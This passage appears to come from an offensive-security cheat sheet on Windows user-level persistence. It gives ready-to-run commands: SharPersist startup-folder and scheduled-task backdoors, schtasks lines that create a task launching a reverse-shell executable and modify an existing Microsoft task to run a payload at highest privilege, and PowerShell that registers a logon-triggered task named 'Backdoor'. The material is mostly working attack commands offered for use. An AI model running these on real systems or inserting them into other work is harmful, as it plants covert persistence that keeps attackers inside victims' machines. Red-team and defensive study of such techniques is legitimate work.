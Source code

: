 Using SharPersist

```powershell
SharPersist -t startupfolder -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -f "Some File" -m add
```

### Scheduled Tasks User

* Using native **schtask** - Create a new task
    ```powershell
    # Create the scheduled tasks to run once at 00.00
    schtasks /create /sc ONCE /st 00:00 /tn "Device-Synchronize" /tr C:\Temp\revshell.exe
    # Force run it now !
    schtasks /run /tn "Device-Synchronize"
    ```
* Using native **schtask** - Leverage the `schtasks /change` command to modify existing scheduled tasks
    ```powershell
    # Launch an executable by calling the ShellExec_RunDLL function.
    SCHTASKS /Change /tn "\Microsoft\Windows\PLA\Server Manager Performance Monitor" /TR "C:\windows\system32\rundll32.exe SHELL32.DLL,ShellExec_RunDLLA C:\windows\system32\msiexec.exe /Z c:\programdata\S-1-5-18.dat" /RL HIGHEST /RU "" /ENABLE
    ```

* Using Powershell
    ```powershell
    PS C:\> $A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Users\Rasta\AppData\Local\Temp\backdoor.exe"
    PS C:\> $T = New-ScheduledTaskTrigger -AtLogOn -User "Rasta"
    PS C:\> $P = New-ScheduledTaskPrincipal "Rasta"
    PS C:\> $S = New-ScheduledTaskSettingsSet
    PS C:\> $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S
    PS C:\> Register-ScheduledTask Backdoor -InputObject $D
    ```

* Using SharPersist
    ```powershell
    # Add to a current scheduled task
    SharPersist -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Something Cool" -m add

    # Add new task
    SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m add
    SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m add -o hourly
    ```
